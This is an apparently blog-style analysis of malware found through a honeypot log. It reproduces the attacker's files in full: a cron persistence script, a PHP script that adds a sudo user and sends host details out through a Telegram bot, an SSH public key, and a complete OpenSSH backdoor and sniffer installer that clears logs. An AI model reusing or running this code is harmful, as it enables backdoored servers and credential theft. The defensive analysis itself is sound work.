 ### The story
I was looking at my honey pot logs using the following command.<br>
<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .url' | grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`<br>


The command scrapes the log files and displays the top 10 URLS that were used to download files. 

Usually the top 10 contains IP's not domains. The last result caught my eye because it contained the domain name: http://chairfiller[.]org/smtp.

The first thing I did was use  the tool, Dirseach on the domain. This tool uses a list of popular file names and will check to see
if the file exists. 

<img src="https://i.imgur.com/aq4XhPX.png" alt="chairfiller[.]org dirsearch" width=35% height=35%>


The Figure above shows the files and directories that were found by the tool. 
<ul>
  <li>/authorized_keys</li>
  <li>/a</li>
  <li>/echo</li>
  <li>/f</li>
  <li>/archive.zip</li>
  <li>/perl</li>
  <li>/phptest.php</li>
  <li>/setup</li>
  <li>/test</li>
</ul>  

The list above shows some of the more intresting files.<br><br><br>
<img src="https://i.imgur.com/cZDgh63.png" alt="chairfiller[.]org/a" width=35% height=35%><br>
The Figure above shows that when you visit `chairfiller[.]org/a` the visitor is shown the file system where there is a hidden directory named .b. 

<img src="https://i.imgur.com/gMnIksc.png" alt="chairfiller[.]org/a/.b" width=35% height=35%>
<br>
The Figure above shows the contents of the `chairfiller[.]org/a/.b/` directory. The contents of the directory contains files for windows and linux based operating systems. 

One of the files in the directory is a file named autorun. 

```bash
#!/bin/sh
pwd > dir
dir=$(cat dir)
echo "* * * * * $dir/update >/dev/null 2>&1" > cron
crontab cron
crontab -l | grep update
echo "#!/bin/sh
if test -r $dir/pid; then
pid=\$(cat $dir/pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > update
chmod u+x update

```
The Figure above shows the contents of the file located at `http://chairfiller.org/a/.b/autorun`.

The autorun Figure shown above is a Bash script. The first thing the script does create a new that will contain the machine's home directory file path. This file is named dir. Next the script creates a variable named dir. Whe $dir is called the script will use the cat command to read the contents of the dir file. After that variable is created the script will use the echo command to create a new cron job that will use the $dir variable created earlier to get the machines home path. The next line is where the script will add the cron to the crontab. 

The script use the the command `crontab -l` to list the machines cronjob.The script will also use the `grep` command to look for cronjobs that contain the string "update".

### cfg

<img src="https://i.imgur.com/HUsQ0pN.png" alt="chairfiller[.]org/a/.b/cfg" width=35% height=35%>
<br><br> The image above was found at `chairfiller[.]org/a/.b/cfg`. 
The file appears to contain config information for the IRC server such as IP's and ports. The file also contains information like the channel that the malware uses to communicate to the bot master. 
<br><br>
### echo
The script, echo can be found at `http://chairfiller[.]org/echo`. The scrip in written in PHP and uses the Telegram API to send data to the attackers. 
```php
<?php exec('useradd mails; echo "mails:badguys" | chpasswd; sudo adduser mails udo'); $sys = php_uname(); $lihat = system('curl ipecho.net/plain'); $corenya =system('nproc');$response = file_get_contents("https://api.telegram.org/bot165187481:AAFwnMlabSDcSfMe474hAEZht9sHdrCip2Y/sendMessage?chat_id=-463422282&text=Sfu vine : -> IP : ".$lihat." -> Core : ".$corenya." -> User : mails -> Pass : bdguys -> Uname : ".$sys); ?>
```
<br>
The snippet above shows the contents of echo. The first thing the PHP script does is add a new user named `mails` to the system. Next it uses echo to add the password `badguys` to the password file. The script uses the `chpasswd` command to change the password. The last thing it does to the user mails is give it sudo permissions. But I think they forget  the s on the sudo. 

Next the PHP code creates a variable named `$sys`. The variable uses PHP's `php_name()` method to return information about the system. The `lihat` variable uses PHP's system method to use curl to visit `ipecho.net/plain` which will return the IP address of the server. The next variable run the `nproc` command which will return the number of processing units that the system contains. 

The next part of the script contains the part where the attacker uses Telegram to send inforamtion about the infected computer to a certain Telegram channel.  

### Authorized_keys
```txt
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAm4OL3t9/CKCXnaS1FqMqVBZtIctaDGfNTwkBypjk7LskJYRJn+y+dykldCNGmtRuNBCsBpzVIvY69ap4AX2h02FBhhngnOZl/P7so4JNo0EBVdeb8tps7fJryXFvbSFv5J+9OlbXa35aKQFPE1G4rQ7KM9cnUXnRtsZz/TPRwx7HRBPlM0FajN48djc2yQaHPtzustZ4YC6NMuadaZZlRMf5+HF6lpdHdsMmLuSlYBigRc1yI9OSlpFSQMxpqyCTiiPO8jOuoARu8ZT5cWzWcjce1oJ7t8IlklCPMnwtjFLdNCQsthXQU86s+5iey0Yons4WC5RW/zaDKStdGvq0qw== rsa-key-20141006
```
<br>

The snippet above shows the hacker's authorized_keys file. Once a machine is infected malware creators will often drop the authorized_keys file on the machine so they can SSH into the machine to re infect the victim. The file allows the hackers to SSH into the machine any time they want. This is dangerous.


### Setup
```bash
#!/bin/bash

# So far so good. Although I do need to add some freeBSD auto-dependency installer support but so few people even use that one it would be a waste to do so.
# ext @undernet 2015.

# The colours:

RED="\e[1;31m"
GRN="\e[1;32m"
YELLOW="\e[1;33m"
CYAN="\e[1;36m"
WHITE="\e[1;37m"
RS="\e[0m"

# Generates a 14 character password:

function genPass () {
	chars=( 'q' 'w' 'e' 'r' 't' 'y' 'u' 'i' 'o' 'p' 'a' 's' 'd' 'f' 'g' 'h' 'j' 'k' 'l' 'z' 'x' 'c' 'v' 'b' 'n' 'm' 'Q' 'W' 
		'E' 'R' 'T' 'Y' 'U' 'I' 'O' 'P' 'A' 'S' 'D' 'F' 'G' 'H' 'J' 'K' 'L' 'Z' 'X' 'C' 'V' 'B' 'N' 'M' '0' '1' '2' '3' '4'
		 '5' '6' '7' '8' '9' '.' '_' )
	for i in `seq 1 14` 
		do
			rand=$(($RANDOM%64))
			echo -n "${chars[$rand]}"
		done
	echo 
}

# Searches the system for hidden things >:)

function sniff () {

	if [ "$1" == "exhaustive" ]
	then
		if [ -z "$2" ]
		then
			directory="/usr/include"
			echo -e "${GRN}[+] Performing exhaustive search in $directory and all subdirectories for older sniffer logs.${RS}"
			find $directory -type f -exec grep "+password:" {} \; 2> /dev/null >> huntlog.txt
			cat huntlog.txt
			echo
			echo -e "${GRN}[+] Exhaustive search has been completed. You can review these logs (if any) by reading 'huntlog.txt'.${RS}"
			sleep 2
		else
			directory=$2
			echo -e "${GRN}[+] Performing exhaustive search in $directory and all subdirectories for older sniffer logs.${RS}"
			find $directory -type f -exec grep "+password:" {} \; 2> /dev/null >> huntlog.txt
			cat huntlog.txt
			echo
			echo -e "${GRN}[+] Exhaustive search has been completed. You can review these logs (if any) by reading 'huntlog.txt'.${RS}"
			sleep 2
		fi
	fi

	if [ "$1" == "quick" ]
	then
		if [ -z "$2" ]
		then
			directory="/usr/include"
			echo -e "${GRN}[+] Performing quick search ONLY in the files from $directory and not any other subdirectories.${WHITE}"
			echo
			for i in  "$directory"/*
				do
					grep -H "+password:" $i 2> /dev/null >> huntlog.txt
				done
			cat huntlog.txt
			echo
			echo -e "${GRN}[+] Quick search has been completed. You can review these logs (if any) by reading 'huntlog.txt'.${RS}"
			sleep 2
		else
			directory=$2
			echo -e "${GRN}[+] Performing quick search ONLY in the files from $directory and not any other subdirectories.${RS}"
			echo
			for i in  "$directory"/*
				do
					grep -H "+password:" $i 2> /dev/null >> huntlog.txt
				done
			cat huntlog.txt
			echo
			echo -e "${GRN}[+] Quick search has been completed. You can review these logs (if any) by reading 'huntlog.txt'.${RS}\n"
			sleep 2
		fi
	fi
}

function snifferSearch () {

	echo -ne "${YELLOW}[!] Do you want to perform a sniffer logfile search on the device: ${CYAN}(Y/N) ${input0} ${RS}"
	read input0

	if [ "$input0" == "Y" ] || [ "$input0" == "y" ]
		then
		echo -ne "${YELLOW}[!] Type '1' for an 'exhaustive' sniff or '2' for a 'quick' one: ${CYAN}${input1} ${RS}"
		read input1

		if [ "$input1" == "1" ]
			then
			echo -ne "${YELLOW}[!] Choose a directory: (default: /usr/include) ${CYAN}${input2} ${RS}"
			read input2
			if [ "$input2" != "" ]
				then
				sniff exhaustive $input2
			else
				sniff exhaustive
			fi
		fi

		if [ "$input1" == "2" ]
			then
			echo -ne "${YELLOW}[!] Choose a directory: (default: /usr/include) ${CYAN}${input2}${RS}"
			read input2
			if [ "$input2" != "" ]
				then
				sniff quick $input2
			else
				sniff quick
			fi
		fi
	else
		echo -e "${GRN}[+] Moving on. ${RS}"
	fi
}

# Starts up the sshd.

function sshdStart () {

	mv /usr/sbin/sshd sshd_old 
	cp sshd /usr/sbin/sshd
	echo -e "${GRN}[+] Modified sshd.${RS}"
	cat sshd_config > /etc/ssh/sshd_config
	echo -e "${GRN}[+] Sorted sshd_config.${RS}"

	mv /usr/bin/ssh ssh_old 
	cp ssh /usr/bin/ssh
	echo -e "${GRN}[+] Modified ssh.${RS}"
	cat ssh_config > /etc/ssh/ssh_config
	echo -e "${GRN}[+] Sorted ssh_config.${RS}"

	chattr +iau /usr/sbin/sshd
	echo -e "${GRN}[+] Changed attributes for sshd to +iau.${RS}"
	chattr +iau /usr/bin/ssh
	echo -e "${GRN}[+] Changed attributes for ssh to +iau.${RS}"

	if [[ -f /var/run/sshd.pid ]] 
		then
		kill -9 `cat /var/run/sshd.pid`
		/usr/sbin/sshd
	fi

	if [[ -f /var/run/sshd.init.pid ]] 
		then
		kill -9 `cat /var/run/sshd.init.pid`
		/usr/sbin/sshd
	fi

	if [[ -f /var/run/sshd2_22.pid ]] 
		then
		kill -9 `cat /var/run/sshd2_22.pid`
		/usr/sbin/sshd
	fi

	service ssh stop 2> /dev/null >> /dev/null
	service ssh start 2> /dev/null >> /dev/null
	service sshd stop 2> /dev/null >> /dev/null
	service sshd start 2> /dev/null >> /dev/null
}

# Auto installs gcc:

function autoGCC () {

	if [ -f /usr/bin/yum ]
		then
			echo -e "${YELLOW}[!] Attempting to auto-install using yum...${RS}"
			yum install -y gcc >> /dev/null
	fi

	if	 [ -f /usr/bin/apt-get ]
		then
			apt-get update >> /dev/null
			echo -e "${GRN}[+] Updated apt-get repositories.${RS}"
			echo -e "${YELLOW}[!] Attempting to auto-install gcc using apt-get...${RS}"
			apt-get install gcc -y >> /dev/null
	fi

	if [ -f /sbin/yast ]
		then
		echo -e "${YELLOW}[!] Attempting to auto-install gcc using yast...${RS}"
		yast -i gcc >> /dev/null
	fi

	if [ -f /usr/bin/zypper ]
		then
		echo -e "${YELLOW}[!] Attempting to auto-install gcc using zypper...${RS}"
		chmod +x /usr/bin/zypper
		zypper -n install gcc >> /dev/null
	fi

	if 	[ -f /usr/bin/gcc ] 
		then
		echo
		echo -e "${GRN}[+] gcc installed. ${RS}"
	else
		echo
		echo -e "${RED}[-] gcc could not be auto installed. ${RS}"
	fi
}

# Auto installs g++:

function autoG++ () {

	if [ -f /usr/bin/yum ]
		then
		echo -e "${YELLOW}[!] Attempting to auto-install g++ using yum.${RS}"
   		yum install gcc-c++ compat-gcc-34 compat-gcc-34-c++ -y >> /dev/null
	fi

	if [ -f /usr/bin/apt-get ]
		then
   		apt-get update >> /dev/null
   		echo -e "${GRN}[+] Updated apt-get repositories.${RS}"
   		echo -e "${YELLOW}[!] Attempting to auto-install g++ using apt-get...${RS}"
   		apt-get install g++ -y >> /dev/null
	fi

	if [ -f /usr/include/stdio.h ] 
		then
		echo -e "${GRN}[+] g++ sucessfully installed. ${RS}"
	else
		echo -e "${RED}[-] g++ could not be auto installed. ${RS}"
	fi
}

# Auto installs make:

function autoMake () {

	if [ -f /usr/bin/yum ]
		then
		echo -e "${YELLOW}[!] Attempting to auto-install make using yum...${RS}"
   		yum install -y make >> /dev/null
	fi

	if [ -f /usr/bin/apt-get ]
		then
   		apt-get update >> /dev/null
   		echo -e "${GRN}[+] Updated apt-get repositories.${RS}"
   		echo -e "${YELLOW}[!] Attempting to auto-install make using apt-get...${RS}"
   		apt-get install make -y >> /dev/null
	fi

	if [ -f /sbin/yast ]
		then
		echo -e "${GRN}[+] Found yast on the system.${RS}"
		echo -e "${YELLOW}[!] Attempting to auto-install make using yast...${RS}"
		yast -i make >> /dev/null
	fi

	if [ -f /usr/bin/zypper ]
		then
		echo -e "${GRN}[+] Found zypper on the system.${RS}"
		echo -e "${YELLOW}[!] Attempting to auto-install make using zypper...${RS}"
   		zypper -n install make >> /dev/null
	fi

	if [ -f /usr/bin/make ] 
		then
		echo -e "${GRN}[+] make sucessfully installed. ${RS}"
	else
		echo -e "${RED}[-] make could not be auto installed. ${RS}"
	fi
}

# Auto installs openssl-devel:

function autoOpenssl () {

	if [ -f /usr/bin/yum ]
		then
		echo -e "${YELLOW}[!] Attempting to auto-install openssl using yum...${RS}"
   		yum install -y openssl-devel >> /dev/null
	fi

	if [ -f /usr/bin/apt-get ]
		then
		echo -e "${YELLOW}[!] Updating apt-get.. please wait!${RS}"
   		apt-get update >> /dev/null
   		echo -e "${GRN}[+] Updated apt-get repositories.${RS}"
   		echo -e "${YELLOW}[!] Attempting to auto-install openssl using apt-get...${RS}"
   		apt-get install openssl libssl-dev -y >> /dev/null
	fi

	if [ -f /sbin/yast ]
		then
		echo -e "${GRN}[+] Found yast on the system.${RS}"
		echo -e "${YELLOW}[!] Attempting to auto-install openssl using yast...${RS}"
   		yast -i openssl-devel >> /dev/null
	fi

	if [ -f /usr/bin/zypper ]
		then
		echo -e "${GRN}[+] Found zypper on the system.${RS}"
		echo -e "${YELLOW}[!] Attempting to auto-install openssl using zypper...${RS}"
   		zypper -n install openssl-devel >> /dev/null
	fi

	if [ -d /usr/include/openssl ] 
		then
		echo -e "${GRN}[+] openssl sucessfully installed. ${RS}"
	else
		echo -e "${RED}[-] openssl could not be auto installed. ${RS}"
	fi
}

# Auto installs zlib:

function autoZlib () {
	echo -e "${YELLOW}[!] Attempting to auto-install zlib...${RS}"

	if [ ! -f "/usr/bin/gcc" ] || [ ! -f "/usr/bin/make" ]
    	then
    	echo -e "${RED}[-] zlib can not be installed at this time because of unmet dependencies..${RS}"
    	echo -e "${RED}[-] exit. "
    	exit
	fi

    if [ -f /usr/bin/wget ]
       	then
       	wget http://freefr.dl.sourceforge.net/project/libpng/zlib/1.2.8/zlib-1.2.8.tar.gz 2> linkerr.txt >> /dev/null
        echo -e "${GRN}[+] downloaded zlib. ${RS}"
        tar zxvf zlib-1.2.8.tar.gz >> /dev/null
	    echo -e "${GRN}[+] decompressed zlib archive. ${RS}"
	    zlib-1.2.8/configure >> /dev/null
	    echo -e "${GRN}[+] configured zlib. ${RS}"
	    zlib-1.2.8/make >> /dev/null
	    echo -e "${GRN}[+] ran make. ${RS}"
	    zlib-1.2.8/make install >> /dev/null
	    echo -e "${GRN}[+] installed zlib. ${RS}"
	    ln -s /usr/local/include/zlib.h /usr/include/zlib.h >> /dev/null
	    ln -s /usr/local/share/man/man3/zlib.3 /usr/share/man/man3/zlib.3 >> /dev/null
	    echo -e "${GRN}[+] link complete. ${RS}"
	fi	

	if [ -f /usr/bin/curl ]
	    then
	    curl -O -s http://freefr.dl.sourceforge.net/project/libpng/zlib/1.2.8/zlib-1.2.8.tar.gz 2> linkerr.txt >> /dev/null
	    echo -e "${GRN}[+] downloaded zlib. ${RS}"
	    tar zxvf zlib-1.2.8.tar.gz >> /dev/null
	    echo -e "${GRN}[+] decompressed zlib archive. ${RS}"
	    zlib-1.2.8/configure >> /dev/null
	    echo -e "${GRN}[+] configured zlib. ${RS}"
	    zlib-1.2.8/make >> /dev/null
	    echo -e "${GRN}[+] ran make. ${RS}"
	    zlib-1.2.8/make install >> /dev/null
	    echo -e "${GRN}[+] installed zlib. ${RS}"
	    ln -s /usr/local/include/zlib.h /usr/include/zlib.h >> /dev/null
	    ln -s /usr/local/share/man/man3/zlib.3 /usr/share/man/man3/zlib.3 >> /dev/null
	    echo -e "${GRN}[+] link complete. ${RS}"
	fi	

	if [ f /usr/bin/fetch ]
	    then
	    fetch http://freefr.dl.sourceforge.net/project/libpng/zlib/1.2.8/zlib-1.2.8.tar.gz 2> linkerr.txt >> /dev/null
	    echo -e "${GRN}[+] fetched zlib. ${RS}"
	    tar xzvf zlib-1.2.8.tar.gz 2> /dev/null >> /dev/null
	    echo -e "${GRN}[+] decompressed zlib archive. ${RS}"
	    zlib-1.2.8/configure 2> /dev/null >> /dev/null
	    echo -e "${GRN}[+] configured zlib. ${RS}"
	    zlib-1.2.8/make 2> /dev/null >> /dev/null
	    echo -e "${GRN}[+] ran make. ${RS}"
	    zlib-1.2.8/make install 2> /dev/null >> /dev/null
	    echo -e "${GRN}[+] installed zlib. ${RS}"
	    ln -s /usr/local/include/zlib.h /usr/include/zlib.h 2> /dev/null >> /dev/null
	    ln -s /usr/local/share/man/man3/zlib.3 /usr/share/man/man3/zlib.3 2> /dev/null >> /dev/null
	    echo -e "${GRN}[+] link complete. ${RS}"
    fi

	if [ -f /usr/include/zlib.h ] 
    	then
    	echo -e "${GRN}[+] done.${RS}"
    else
    	echo -e "${RED}[-] zlib could not be auto installed.${RS}"
    	echo
    	cat linkerr.txt
	fi
}

# Start:

echo
echo -e "${YELLOW}[!] Initiating...${RS}"
chmod +x *
sleep 1

snifferSearch

echo -e "${YELLOW}[!] Checking for dependencies."

if [[ "`whoami`" == "root"  ]] 
	then
	echo -e "${GRN}[+] uid0 ok."
else
	echo -e "${RED}[-] uid0 not found."
	exit
fi 

if [ -f /usr/bin/gcc ]
	then
	echo -e "${GRN}[+] gcc ok. ${RS}"
else
	echo -e "${RED}[-] gcc not found. ${RS}"
	autoGCC
fi

if [ -f /usr/include/stdio.h ]
	then
	echo -e "${GRN}[+] g++ ok. ${RS}"
else
	echo -e "${RED}[-] g++ not found. ${RS}"
	autoG++
fi

if [ -f /usr/bin/make ]
	then
	echo -e "${GRN}[+] make ok. ${RS}"
else
	echo -e "${RED}[-] make not found. ${RS}"
	autoMake
fi

if [ -d /usr/include/openssl ]
	then
	echo -e "${GRN}[+] openssl-dev ok. ${RS}"
else
	echo -e "${RED}[-] openssl-dev not found. ${RS}"
	autoOpenssl
fi

if [ -f /usr/include/zlib.h ]
	then
	echo -e "${GRN}[+] zlib ok. ${RS}"
else
	echo -e "${RED}[-] zlib not found. ${RS}"
	autoZlib
fi

if [ ! -f "/usr/bin/gcc" ]
	then
	echo -e "${RED}[-] Missing gcc. ${RS}"
	echo -ne "${YELLOW}[!] Continue ?${CYAN}(Y/N)${RS} - ${WHITE}${INPUT}${RS} -"
	read INPUT
	if [ "$INPUT" != "Y" ] && [ "$INPUT" != "y" ]
		then
		echo
		echo -e "${RED}[-] Exiting.${RS}"
		echo -e "${YELLOW}[!] Try to install it manually!${RS}"
		echo
		exit
    fi
fi

if [ ! -f "/usr/bin/make" ]
	then
	echo -e "${RED}[-] Missing make. ${RS}"
	echo -ne "${YELLOW}[!] Continue ?${CYAN}(Y/N)${RS} - ${WHITE}${INPUT}${RS} -"
	read INPUT
	if [ "$INPUT" != "Y" ] && [ "$INPUT" != "y" ]
		then
		echo
		echo -e "${RED}[-] Exiting.${RS}"
		echo -e "${YELLOW}[!] Try to install it manually!${RS}"
		echo
		exit
    fi
fi

if [ ! -d "/usr/include/openssl" ]
	then
	echo -e "\n\n${YELLOW}[!] Missing openssl."
	echo -ne "${YELLOW}[!] Continue ?${CYAN}(Y/N)${RS} - ${WHITE}${INPUT}${RS} -"
	read INPUT
	if [ "$INPUT" != "Y" ] && [ "$INPUT" != "y" ]
		then
		echo
		echo -e "${RED}[-] Exiting.${RS}"
		echo -e "${YELLOW}[!] Try to install it manually!${RS}"
		echo
		exit
    fi
fi

if [ ! -f "/usr/include/zlib.h" ]
	then
	echo -e "\n\n${YELLOW}[!] Missing zlib."
	echo -ne "${YELLOW}[!] Continue ?${CYAN}(Y/N)${RS} - ${WHITE}${INPUT}${RS} -"
	read INPUT
	if [ "$INPUT" != "Y" ] && [ "$INPUT" != "y" ]
		then
		echo
		echo -e "${RED}[-] Exiting.${RS}"
		echo -e "${YELLOW}[!] Try to install it manually!${RS}"
		echo
		exit
    fi
fi

if [ ! -f "/usr/include/stdio.h" ]
	then
	echo -e "\n\n${YELLOW}[!] Missing g++."
	echo -ne "${YELLOW}[!] Continue ?${CYAN}(Y/N)${RS} - ${WHITE}${INPUT}${RS} -"
	read INPUT
	if [ "$INPUT" != "Y" ] && [ "$INPUT" != "y" ]
		then
		echo
		echo -e "${RED}[-] Exiting.${RS}"
		echo -e "${YELLOW}[!] Try to install it manually!${RS}"
		echo
		exit
    fi
fi

echo -e "${YELLOW}[!] Backing up & changing permissions...${RS}"
mkdir sshbackup 2> /dev/null >> /dev/null 
cp -r /etc/ssh sshbackup/.etc.ssh 2> /dev/null >> /dev/null 
echo -e "${GRN}[+] Made backup of /etc/ssh in .etc.ssh.${RS}"
chattr -iau /usr/bin/ssh 2> /dev/null
echo -e "${GRN}[+] Changed attributes of /usr/bin/ssh to -iau.${RS}"
chattr -iau /usr/sbin/sshd 2> /dev/null
echo -e "${GRN}[+] Changed attributes of /usr/sbin/sshd to -iau.${RS}"
cat /etc/ssh/sshd_config > sshd_config
echo -e "${GRN}[+] Copied sshd_config.${RS}"
cat /etc/ssh/ssh_config > ssh_config
echo -e "${GRN}[+] Copied ssh_config.${RS}"

BPASS="$(genPass)"

echo -ne "${YELLOW}[!] Backdoor password - auto-generated ( ${CYAN}${BPASS} ${YELLOW}):${CYAN} "
read BPASS1
if [ "$BPASS1" != "" ]
	then
	BPASS=$BPASS1
fi

echo -e "${GRN}[+] The password is: ${CYAN}${BPASS}${RS}"
echo -ne "${YELLOW}[!] Sniffer logging path - default ( ${CYAN}/usr/libs/ame.lb ${YELLOW}):${CYAN} "
read LPATH


if [ "$LPATH" == "" ] 
	then
	LPATH="/usr/libs/ame.lb"
fi

echo -e "${GRN}[+] Logging path set to: ${CYAN}${LPATH}${RS}"

cat backdoor.h |sed -e s/SSHD_PASS/"$BPASS"/ -e s#LOG_PATH#"$LPATH"# > 1.temp
mv 1.temp backdoor.h

SSHV=`ssh -V 2>&1 |sed s/,/\ /| awk '{print $1}'`
echo -ne "${YELLOW}[!] SSH_VERSION is set to${RS} ${CYAN}${SSHV}${YELLOW}. Do you want to change it? ${CYAN} " 
read SSHV1
if [[ "$SSHV1" != "" ]]
	then 
	SSHV=$SSHV1
fi
echo -e "${GRN}[+] Set SSH_VERSION to: ${CYAN}${SSHV}${RS}" 
echo '#define SSH_VERSION    "'$SSHV'"'>> version.h

echo -e "${YELLOW}[!] Backing up files... ${RS}"
cat /etc/ssh/sshd_config > sshd_config
cat /etc/ssh/ssh_config > ssh_config
echo -e "${GRN}[+] Files backed up. ${RS}"
echo -e "${YELLOW}[!] Installing sniffer... this will take a while.${RS}"
./configure --sysconfdir=/etc/ssh 2> conf_stderr_log >> /dev/null
echo -e "${YELLOW}[!] 50% Complete.${RS} "
make 2> make_stderr_log >> /dev/null

if [[ ! -f ssh || ! -f sshd ]]
	then
	echo -e "${RED}[-] Something went wrong while making/configuring - tailing logs:${RS}"
	sleep 1
	echo
	tail -n 10 conf_stderr_log
	echo
	echo -e "${RED}===================================================================================${RS}"
	echo
	sleep 1
	tail -n 10 make_stderr_log
	echo 
else
	if [[ -d tools ]]
		then
		echo -e "${YELLOW}[!] Cleaning system logs for root entries. ${RS}"
		cd tools 2> /dev/null >> /dev/null
		make linux 2> /dev/null >> /dev/null
		logcleaner -u root 2> /dev/null >> /dev/null
		cd ..
	fi
	echo -e "${YELLOW}[!] Restarting sshd. ${RS}"
	sshdStart
	echo -ne "${YELLOW}[!] What SSH port shall we test for (default 22): ${CYAN}${RS}" 
	read port
	localhost='127.0.0.1'

	if [ "$port" == "" ]
		then
		port="22"
	fi

	if nc -zv -w10 $localhost $port <<< . &> /dev/null
		then
		echo -e "${GRN}[+] Port $port up and running.${RS}"
		echo -e "${GRN}[+] OpenSSH patched for: ${WHITE}`uname -n`.${RS}"
		echo -e "${CYAN}[+] `/sbin/ifconfig |grep inet |grep -v "127\.0\.0\.1" |tr ":" " " |awk '{print $3}' |head -n 1` root:${CYAN}${BPASS}${YELLOW} ---> $LPATH${RS}"
		echo "[+] `/sbin/ifconfig |grep inet |grep -v "127\.0\.0\.1" |tr ":" " " |awk '{print $3}' |head -n 1` root:$BPASS + $LPATH" >> /usr/lib/libssh.ssh
		echo -ne "${RS}"
	else
		echo -e "${RED}[-] Port $port is closed.${RS}"
		echo -e "${YELLOW}[!] Attempting to autofix by generating RSA and opening ports... ${RS}"
		sleep 1
		echo y | ssh-keygen -t rsa -f /etc/ssh/ssh_host_key -N "" >> /dev/null
		echo -e "${GRN}[+] Generated RSA key.${RS}"
		sleep 1
		chattr -iau /var/empty 2> /dev/null >> /dev/null
		rm -rf /var/empty 2> /dev/null >> /dev/null
		mkdir /var/empty 2> /dev/null >> /dev/null
		chown -R root /var/empty 2> /dev/null >> /dev/null
		chmod go-w /var/empty 2> /dev/null >> /dev/null
		echo -e "${GRN}[+] Chowned root to /var/empty.${RS}"
		/sbin/iptables -I INPUT -d 0/0 -s 0/0 -p tcp --dport $port -j ACCEPT
		echo -e "${GRN}[+] Opened $port in iptables - inbound.${RS}"
		/sbin/iptables -I OUTPUT -d 0/0 -s 0/0 -p tcp --dport $port -j ACCEPT
		echo -e "${GRN}[+] Opened $port in iptables - outbound.${RS}"
		sleep 1
		chattr -iau /etc/ssh/sshd_config 2> /dev/null >> /dev/null
		chattr -iau /etc/ssh/sshd_config 2> /dev/null >> /dev/null
		rm -rf /etc/ssh/sshd_config /etc/ssh/ssh_config 2> /dev/null >> /dev/null
		mv backupssh /etc/ssh/ssh_config 2> /dev/null >> /dev/null
		mv backupsshd /etc/ssh/sshd_config 2> /dev/null >> /dev/null
		/usr/sbin/sshd 2> /dev/null >> /dev/null
		service sshd restart 2> /dev/null >> /dev/null
		service ssh restart 2> /dev/null >> /dev/null
		echo -e "${GRN}[+] OpenSSH patched for: ${WHITE}`uname -n`.${RS}."
		echo -e "${CYAN}[+] `/sbin/ifconfig |grep inet |grep -v "127\.0\.0\.1" |tr ":" " " |awk '{print $3}' |head -n 1` root:${CYAN}${BPASS}${YELLOW} ---> $LPATH${RS}"
		echo "[+] `/sbin/ifconfig|grep inet|grep -v "127\.0\.0\.1"|tr ":" " "|awk '{print $3}'|head -n 1` root:$BPASS + $LPATH" >> /usr/lib/libssh.ssh
		echo
		echo -e "${GRN}[+] Done. ${RS}"
		exit
	fi
fi
```
<br>

The Bash script above does a lot of stuff. It is able to install g++, gcc, make, openssl, zlib. The script is able to look in directories for passwords. The script is also able to scan directories looking for these log files. The script will save all the passwords in a file named `huntlog.txt`

### Perl
<img src="https://i.imgur.com/ijB3Brc.png" alt="chairfiller[.]org/perl" width=35% height=35%>

<br>

The image above show some of the contents of the perl file that was found at `chairfiller[.]org/perl`. 
The perl file is a IRC bot that allows the attacker to control the machine by sending commands through a IRC server. The server IP that is used to host the IRC chat is `164.90.240.68`. The port of the IRC server is port 81. 

The Perl script has many different features. The Perl script is able to scan the infected machines local network for open ports. The IRC bot also appears to be able to perform different types of DDOS attacks. The script also contains features that would allow the attackers to send spam emails.
<br>

### f
The f file can be found at `chairfiller[.]org/f`. <br><br>
`f: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.0.0, stripped, too many notes (256)`
<br><br>
The snippet above shows the results when the command: `file f` is ran on the file. 

The next step was to run the strings command on the file. The command returned a long list of strings that were located in the executable. 

One of the more intresting strings that was found in the sample was the following string.<br><br>
`usage: %s <port> [-a <a class> | -b <b class>] [-i <interface] [-s <speed>]
speed 10 -> as fast as possible, 1 -> it will take bloody ages (about 50 syns/s)`
<br><br>
A quick <a href="https://securiteam.com/tools/5ep0b0adfo/">Google search for that string</a> returns that the strings belong to a script named `Fast SYN Scanner`. Fast SYN Scanner was written in C. The website shows that the article was published on July 11th, 2004.



### IOC
<ul>
  <li>e4eda70e5c4daccdffb71ff79e4877bd57f81f80  echo</li>
  <li>a8ab84485735cec4e44c2f6db03d6f57c8533b4c  archive.zip</li>
